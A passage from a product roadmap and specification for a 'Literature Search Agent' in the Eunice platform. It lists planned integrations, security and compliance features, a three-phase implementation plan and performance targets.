- **Circuit Breaker Patterns**: Improved fault tolerance for external API dependencies
- **Intelligent Caching**: Sophisticated caching strategies to reduce API calls
- **Graceful Degradation**: Maintained functionality during partial system failures
- **Auto-Recovery Mechanisms**: Automated recovery from transient errors

### Integration and Interoperability

#### Reference Manager Integration

- **Zotero Integration**: Direct export to Zotero libraries with metadata preservation
- **Mendeley Support**: Seamless workflow integration for reference management
- **EndNote Compatibility**: Support for institutional reference management workflows
- **BibTeX/RIS Export**: Standard citation format support for academic workflows

#### Academic Ecosystem Integration

- **ORCID Integration**: Author identification and disambiguation using ORCID IDs
- **Institutional Repository Access**: Direct integration with university repository systems
- **Journal API Integration**: Real-time access to publisher-specific content
- **Preprint Server Expansion**: Enhanced coverage of discipline-specific preprint servers

#### Advanced Analytics Integration

- **Altmetrics Integration**: Social media mentions, news coverage, and impact tracking
- **Citation Network Analysis**: Comprehensive mapping of reference relationships
- **Collaboration Network Mapping**: Analysis of author collaboration patterns
- **Temporal Trend Analysis**: Historical analysis of research topic evolution

### Technical Infrastructure Enhancements

#### Scalability and Performance

- **Microservices Architecture Optimization**: Further decomposition for independent scaling
- **Distributed Processing**: Parallel processing capabilities for large-scale searches
- **Edge Computing Integration**: Reduced latency through geographic distribution
- **Auto-Scaling Infrastructure**: Dynamic resource allocation based on demand

#### Data and Content Enhancement

- **Full-Text Mining Integration**: PDF content extraction and analysis capabilities
- **Multimedia Content Support**: Integration of figures, tables, and supplementary materials
- **Multi-Language Support**: Enhanced search capabilities across different languages
- **Historical Archive Integration**: Access to legacy academic content and archives

### Security and Compliance Evolution

#### Advanced Security Features

- **Zero-Trust Architecture**: Enhanced security model for all system interactions
- **Advanced Encryption**: End-to-end encryption for sensitive research data
- **Audit Trail Enhancement**: Comprehensive logging for compliance and forensics
- **Privacy-Preserving Analytics**: Differential privacy techniques for user behavior analysis

#### Regulatory Compliance

- **GDPR Compliance Enhancement**: Advanced data protection and user rights management
- **Research Ethics Integration**: Built-in compliance checking for ethical research standards
- **Data Sovereignty Support**: Geographic data residency controls for international compliance
- **Export Control Compliance**: Automated screening for technology transfer restrictions

### Innovation and Research Features

#### AI and Machine Learning Integration

- **Research Trend Prediction**: AI-powered identification of emerging research directions
- **Gap Analysis**: Automated identification of understudied research areas
- **Collaboration Recommendation**: AI-suggested researcher connections and partnerships
- **Impact Prediction**: ML models for predicting research impact and citation potential

#### Advanced Search Capabilities

- **Natural Language Queries**: Conversational search interface for complex research questions
- **Visual Search Interface**: Graphical query building with drag-and-drop functionality
- **Temporal Search Patterns**: Advanced time-series analysis of research publications
- **Cross-Disciplinary Discovery**: AI-powered identification of relevant cross-domain research

### Implementation Roadmap and Priorities

#### Phase 1: Foundation (Months 1-6)

1. **Semantic Search Implementation** (HIGH PRIORITY)
   - Vector embedding integration
   - Similarity-based retrieval
   - Enhanced relevance scoring

2. **Enhanced Error Handling and Logging** (HIGH PRIORITY)
   - Structured logging framework
   - Advanced monitoring dashboard
   - Predictive error detection

3. **API Quota Management Enhancement** (MEDIUM PRIORITY)
   - Intelligent quota distribution
   - Predictive usage modeling
   - Dynamic source prioritization

#### Phase 2: Integration and Quality (Months 7-12)

1. **Reference Manager Integration** (HIGH PRIORITY)
   - Zotero and Mendeley connectors
   - Standard export formats
   - Workflow optimization

2. **Advanced Validation and Quality Assurance** (HIGH PRIORITY)
   - ML-powered quality scoring
   - Automated relevance assessment
   - Cross-source consistency validation

3. **Security Framework Enhancement** (MEDIUM PRIORITY)
   - Advanced encryption implementation
   - Compliance automation
   - Audit trail enhancement

#### Phase 3: Innovation and Scale (Months 13-18)

1. **AI-Powered Features** (MEDIUM PRIORITY)
   - Research trend prediction
   - Collaboration recommendations
   - Impact forecasting

2. **Advanced Analytics Integration** (LOW PRIORITY)
   - Altmetrics and social impact
   - Citation network analysis
   - Temporal trend analysis

3. **Scalability Enhancements** (MEDIUM PRIORITY)
   - Distributed processing
   - Auto-scaling infrastructure
   - Edge computing integration

### Success Metrics and KPIs

#### Technical Performance Metrics

- **Search Relevance Score**: Target >85% relevance for top 20 results
- **System Uptime**: Target 99.9% availability
- **Response Time**: Target <5 seconds for standard queries
- **API Quota Efficiency**: Target >90% utilization without exceeding limits

#### User Experience Metrics

- **Query Success Rate**: Target >95% successful query completion
- **Result Completeness**: Target >80% metadata completeness across all sources
- **User Satisfaction**: Target Net Promoter Score >8.0
- **Workflow Integration**: Target <30 seconds from search to reference export

#### Quality and Accuracy Metrics

- **Duplicate Detection Accuracy**: Target >95% precision and recall
- **Cross-Source Consistency**: Target >90% consistency for overlapping records
- **Data Quality Score**: Target >85% average quality score for all records
- **Error Rate**: Target <1% system error rate across all operations

---

**Strategic Focus**: Prioritize semantic search and vector-based retrieval enhancements for maximum impact on search quality and user satisfaction.

**Implementation Philosophy**: Incremental enhancement with continuous integration of user feedback and performance monitoring.

**Risk Mitigation**: Comprehensive testing strategy with gradual rollout and fallback mechanisms for all new features.

---

*This enhanced roadmap reflects the critical importance of semantic search capabilities and quality assurance in delivering a world-class literature search platform that serves the evolving needs of the research community.*

---

**Implementation Priority**: High (Foundation for literature review pipeline)  
**Dependencies**: Database Agent, Research Manager  
**Estimated Development**: Enhanced timeline with phased approach  
**Testing Requirements**: Comprehensive API integration testing with enhanced quality assurance

---

*This documentation serves as the comprehensive implementation specification for the Literature Search Agent within the Eunice platform's literature review pipeline, incorporating advanced features for operational excellence, security, and future scalability.*
